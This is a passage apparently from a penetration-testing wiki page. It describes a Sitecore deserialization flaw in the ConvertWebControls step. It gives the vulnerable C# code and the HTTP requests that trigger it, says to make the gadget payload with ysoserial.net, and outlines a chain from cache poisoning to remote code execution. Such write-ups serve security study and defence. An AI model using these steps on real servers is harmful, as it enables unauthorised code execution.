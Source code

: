 Reachable via the convertToRuntimeHtml pipeline step ConvertWebControls, which looks for an element with id {iframeId}_inner and base64 decodes + deserializes it, then injects the resulting string into the HTML:

```csharp
HtmlNode inner = doc.SelectSingleNode("//*[@id='"+id+"_inner']");
string text2   = inner?.GetAttributeValue("value", "");
if (text2.Length > 0)
  htmlNode2.InnerHtml = StringUtil.GetString(Sitecore.Convert.Base64ToObject(text2) as string);
```

Trigger (authenticated, Content Editor rights). The FixHtml dialog calls convertToRuntimeHtml. End‑to‑end without UI clicks:

```
// 1) Start Content Editor
GET /sitecore/shell/Applications/Content%20Editor.aspx

// 2) Load malicious HTML into EditHtml session (XAML event)
POST /sitecore/shell/-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.EditHtml.aspx
Content-Type: application/x-www-form-urlencoded

__PARAMETERS=edithtml:fix&...&ctl00$ctl00$ctl05$Html=
<html>
  <iframe id="test" src="poc" value="poc"></iframe>
  <test id="test_inner" value="BASE64_GADGET"></test>
</html>

// 3) Server returns a session handle (hdl) for FixHtml
{"command":"ShowModalDialog","value":"/sitecore/shell/-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.FixHtml.aspx?hdl=..."}

// 4) Visit FixHtml to trigger ConvertWebControls → deserialization
GET /sitecore/shell/-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.FixHtml.aspx?hdl=...
```

Gadget generation: use ysoserial.net / YSoNet with BinaryFormatter to produce a base64 payload returning a string. The string’s contents are written into the HTML by ConvertWebControls after deserialization side‑effects execute.

[[../../../pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md]]

## Complete chain

1) Pre‑auth attacker poisons HtmlCache with arbitrary HTML by reflectively invoking WebControl.AddToCache via XAML AjaxScriptManager.
2) Poisoned HTML serves JavaScript that nudges an authenticated Content Editor user through the FixHtml flow.
3) The FixHtml page triggers convertToRuntimeHtml → ConvertWebControls, which deserializes attacker‑controlled base64 via BinaryFormatter → RCE under the Sitecore app pool identity.

## Detection
